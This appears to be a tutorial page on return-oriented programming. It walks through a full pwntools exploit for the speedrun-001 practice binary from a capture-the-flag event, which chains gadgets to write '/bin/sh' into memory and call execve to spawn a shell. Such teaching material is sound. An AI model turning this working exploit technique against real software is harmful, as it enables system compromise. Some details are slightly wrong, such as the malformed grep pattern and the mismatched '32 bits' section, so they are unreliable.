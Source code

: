 # ROP - call sys_execve

In order to prepare the call for the **syscall** it's needed the following configuration:

* `rax: 59 Specify sys_execve`
* `rdi: ptr to "/bin/sh" specify file to execute`
* `rsi: 0 specify no arguments passed`
* `rdx: 0 specify no environment variables passed`

So, basically it's needed to write the string `/bin/sh` somewhere and then perform the `syscall` (being aware of the padding needed to control the stack).

## Control the registers

Let's start by finding** how to control those registers**:

```c
ROPgadget --binary speedrun-001 | grep -E "pop (rdi|rsi|rdx\rax) ; ret"
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x00000000004101f3 : pop rsi ; ret
0x00000000004498b5 : pop rdx ; ret
```

With these addresses it's possible to** write the content in the stack and load it into the registers**.

## Write string

### Writable memory

Frist you need to find a writable place in the memory

```bash
gef> vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
```

### Write String

Then you need to find a way to write arbitrary content in this address

```python
ROPgadget --binary speedrun-001 | grep " : mov qword ptr \["
mov qword ptr [rax], rdx ; ret #Write in the rax address the content of rdx
```

#### 32 bits

```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''

rop += popRdx           # place value into EAX
rop += "/bin"           # 4 bytes at a time
rop += popRax           # place value into edx
rop += p32(0x6b6000)    # Writable memory
rop += writeGadget   #Address to: mov qword ptr [rax], rdx

rop += popRdx
rop += "//sh"
rop += popRax
rop += p32(0x6b6000 + 4)
rop += writeGadget
```

#### 64 bits

```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000) # Writable memory
rop += writeGadget #Address to: mov qword ptr [rax], rdx
```

## Example

```python
from pwn import *

target = process('./speedrun-001')
#gdb.attach(target, gdbscript = 'b *0x400bad')

# Establish our ROP Gadgets
popRax = p64(0x415664)
popRdi = p64(0x400686)
popRsi = p64(0x4101f3)
popRdx = p64(0x4498b5)

# 0x000000000048d251 : mov qword ptr [rax], rdx ; ret
writeGadget = p64(0x48d251)

# Our syscall gadget
syscall = p64(0x40129c)

'''
Here is the assembly equivalent for these blocks
write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000)
rop += writeGadget

'''
Prep the four registers with their arguments, and make the syscall

pop rax, 0x3b
pop rdi, 0x6b6000
pop rsi, 0x0
pop rdx, 0x0

syscall
'''

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += p64(0x6b6000)

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall


# Add the padding to the saved return address
payload = "0"*0x408 + rop

# Send the payload, drop to an interactive shell to use our new shell
target.sendline(payload)

target.interactive() 
```

## References

* [https://guyinatuxedo.github.io/07-bof_static/dcquals19\_speedrun1/index.html](https://guyinatuxedo.github.io/07-bof_static/dcquals19\_speedrun1/index.html)
